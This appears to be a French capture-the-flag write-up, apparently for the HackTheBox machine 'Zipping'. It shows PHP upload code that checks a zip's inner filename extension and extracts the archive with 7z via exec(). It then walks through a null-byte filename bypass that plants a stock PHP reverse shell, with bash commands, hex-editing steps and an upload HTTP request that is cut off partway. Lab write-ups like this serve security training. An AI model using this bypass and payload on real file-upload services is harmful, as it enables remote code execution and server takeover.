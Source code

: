 ```php
	$zip = new ZipArchive;
	if ($zip->open($zipFile) === true) {
	  if ($zip->count() > 1) {
	  echo '<p>Please include a single PDF file in the archive.<p>';
	  } else {
	  // Get the name of the compressed file
	  $fileName = $zip->getNameIndex(0);
	  if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf") {
		mkdir($uploadDir);
echo exec('7z e '.$zipFile. ' -o' .$uploadDir. '>/dev/null');
		echo '<p>File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:</p><a href="'.$uploadDir.$fileName.'">'.$uploadDir.$fileName.'</a>'.'</p>';
	  } else {
		echo "<p>The unzipped file must have  a .pdf extension.</p>";
	  }
	 }
	} else {
	  echo "Error uploading file.";
	}

  }
}
?>
```
Comme il est possible de constater à la lecture du code, cette fonction PHP valide qu'au niveau du fichier `zip`, seulement les fichiers avec une extension `pdf` sont acceptées. Afin d'obtenir un reverse shell, voici l'explication de `0xdf` 

>So what happens with the null byte in the name on Zipping? It will get the zip and when it gets the filename, it gets the full name, 0xdf.php\x00.pdf. It checks that the file has a .pdf extension, which it does. It then uses 7z to extract, creating the file /tmp/uploads/[hash]/0xdf.php.
Then PHP checks if the file exists, and it doesn’t, as it’s looking for /tmp/uploads/[hash]/0xdf.php\x00.pdf. So it doesn’t move the directory to the web, and it continues (sending back a success message with the path that doesn’t exist).

Afin d'exploiter cette vulnérabilité, il faut tout d'abord créer un fichier avec un byte connue (0x41)(e.g.: `rev.phpA.pdf`)

```bash
mkdir exploit && cd exploit
cp /usr/share/webshells/php/php-reverse-shell.php rev.phpA.pdf
zip exploit.zip rev.phpA.pdf
```

Par la suite, il faut utiliser un `hex editor` et de modifier la deuxième occurence disponible du byte dans le nom de fichier afin de le remplacer par un `null byte (0x00)`

![[/content/img/htb/zipping_hex_editor.png]]

Téléverser ensuite le fichier `zip` modifié sur le serveur.

```http
POST /upload.php HTTP/1.1
Host: 10.129.130.82
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------408806559242910997263418072045
Content-Length: 1905
Origin: http://10.129.130.82
Connection: close
Referer: http://10.129.130.82/upload.php
Cookie: PHPSESSID=eevnkrloohrm29q71nslklh5p8
```